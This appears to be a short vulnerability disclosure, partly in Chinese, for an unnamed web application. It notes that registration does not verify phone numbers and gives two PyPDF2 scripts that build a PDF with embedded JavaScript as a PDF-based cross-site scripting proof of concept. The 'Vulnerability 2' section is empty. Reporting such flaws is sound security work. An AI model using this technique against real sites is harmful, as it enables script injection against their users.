

First, you need to register an account

Registration allows you to input your phone number freely without verifying if it belongs to you

Enter my message

Vulnerability 1:

制作pdf型XSS

**zi1.py:**

~~~
from PyPDF2 import PdfReader, PdfWriter  
#创建一个新的 PDF 文档  
output_pdf = PdfWriter()  
#添加一个新页面  
page = output_pdf.add_blank_page(width=72, height=72)  
#添加js代码  
output_pdf.add_js("app.alert('xss');")  
#将新页面写入到新 PDF 文档中  
with open("xss.pdf", "wb") as f:  
	output_pdf.write(f)
~~~

**zi2.py:**

~~~
from PyPDF2 import PdfReader, PdfWriter
#打开原始 PDF 文件
input_pdf = PdfReader("x.pdf")
#创建一个新的 PDF 文档
output_pdf = PdfWriter()
#将现有的 PDF 页面复制到新文档
for i in range(len(input_pdf.pages)):
	output_pdf.add_page(input_pdf.pages[i])
#添加 JavaScript 代码
	output_pdf.add_js("app.alert('xss');")
#将新 PDF 文档写入到文件中
with open("xss.pdf", "wb") as f:
	output_pdf.write(f)
~~~

将两文件放入一个路径下：

依次执行python zi1.py python zi2.py等指令

Vulnerability 2:

~~~

~~~

